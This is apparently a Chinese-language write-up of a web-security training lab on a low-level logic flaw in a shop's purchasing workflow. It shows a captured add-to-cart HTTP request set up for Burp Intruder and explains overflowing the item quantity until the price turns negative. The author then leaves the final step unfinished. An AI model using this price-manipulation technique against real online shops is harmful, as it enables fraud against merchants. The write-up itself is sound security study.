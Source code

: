 ## Lab3

### 题目

```
Lab: Low-level logic flaw
PRACTITIONER

This lab doesn't adequately validate user input. You can exploit a logic flaw in its purchasing workflow to buy items for an unintended price. To solve the lab, buy a "Lightweight l33t leather jacket".

You can log in to your own account using the following credentials: wiener:peter
```

### 答案

这题要扩展思路，把数量超标，看看会出现什么情况

把商品加入购物车，抓包放到 bp 爆破模式，修改商品数量使其超标

```http
POST /cart HTTP/2
Host: 0a36003104b85c3980a0bc6e00210042.web-security-academy.net
Cookie: session=pC3lFYpYsTNMcIbX6D9zHU5MCFuC3kye
Content-Length: 39
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a36003104b85c3980a0bc6e00210042.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a36003104b85c3980a0bc6e00210042.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

productId=1&redir=PRODUCT&quantity=§1§
```

反正超标一定的数量后，价格会变为负数，这时候再加点其它商品，让总价为正数，价格又小于 100 美元即可，这是数学题，我不想搞了

